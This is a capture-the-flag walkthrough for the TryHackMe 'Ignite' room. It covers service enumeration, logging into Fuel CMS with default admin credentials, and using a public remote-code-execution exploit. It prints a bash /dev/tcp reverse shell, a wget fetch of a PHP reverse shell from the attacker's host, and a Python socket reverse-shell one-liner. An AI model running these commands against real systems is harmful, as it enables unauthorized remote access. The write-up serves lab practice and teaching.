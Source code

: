 # TryHackMe - Ignite

[Room link](https://tryhackme.com/room/ignite)

---

## Enumeration

I use nmap for scanning the machine ports and services avalaibles.

First scan :

```bash
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:E2:A6:89:F5:5D (Unknown)
```

---

### HTTP 80

Let's move on the website on port 80. We can wee on the default page the CMS Fuel.

Let's rum a dirb scan :

```bash
$ dirb http://<target_IP>
[...]
==> DIRECTORY: http://10.10.85.16/assets/
+ http://10.10.85.16/home (CODE:200|SIZE:16593)                              
+ http://10.10.85.16/index (CODE:200|SIZE:16593)                             
+ http://10.10.85.16/index.php (CODE:200|SIZE:16593)                         
+ http://10.10.85.16/lost+found (CODE:400|SIZE:1134)                         
+ http://10.10.85.16/offline (CODE:200|SIZE:70)                              
+ http://10.10.85.16/robots.txt (CODE:200|SIZE:30)                           
+ http://10.10.85.16/server-status (CODE:403|SIZE:299)                       
                                                                             
---- Entering directory: http://10.10.85.16/assets/ ----
                                                                              + http://10.10.85.16/assets/@ (CODE:400|SIZE:1134)                           
                                                                              ==> DIRECTORY: http://10.10.85.16/assets/cache/
                                                                              ==> DIRECTORY: http://10.10.85.16/assets/css/                                                      
```

We can see a robots.txt available. If you go to check it in, you will see an another available directory on this website called /fuel/.

Now, we have an authentication form. Let's check the default credentials of the CMS.

The default credentials are : admin/admin. Try to test it.

That works ! We are connect as admin user.



---

## Exploitation

From the administration interface of the CMS, i meet some troubles for change anything.. 

In the same time, I checked if an exploit for Fuel CMS 1.4 exists. I found this follow :

```bash
$ searchsploit fuel cms
[...]
$ searchsploit -m 47138
```

I just delete the proxy variable and delete the proxy argument in the requests.get.

```bash
#       proxy = {"http":"http://127.0.0.1:8080"}
        r = requests.get(burp0_url)
```

Run this exploit with the "id" remote command. 

```bash
$ python 47138.py
[...]
cmd:id
[...]
cmd:id
systemuid=33(www-data) gid=33(www-data) groups=33(www-data)

<div style="border:1px solid #990000;padding-left:20px;margin:0 0 10px 0;">
[...]
```

We can try to send a command to set up a reverse shell. Don't forget to set a nc listener ( example : $ nc -lnvp 4444).

```bash
cmd:"bash -c 'exec bash -i &>/dev/tcp/<my_ip>/<listener_port> <&1'"
``̀

That does not works. So let's try to set up a webserver on local and execute a wget command from the target to my machine for get a php reverse shell file.

```bash
# Local (we need to have our reverse shell file on the current directory)
$ python3 -m http.server 80
```

Take this follow commands to get the reverse shell file from target to our webserver.

```bash
cmd:wget http://<your_ip>/<reverse_shell_file>
```

Then, we can execute the file on the browser with this url : http://<target_ip>/<php-reverse-shell>

We can upgrade our reverse shell to a pseudo operationnel TTY :

```bash
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/$  
``` 
 
---  
  
## User flag

The user flag is in /home/www-data/flag.txt

---

## Root flag

  
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attacker_ip>",<listner_port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);`
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo;fg
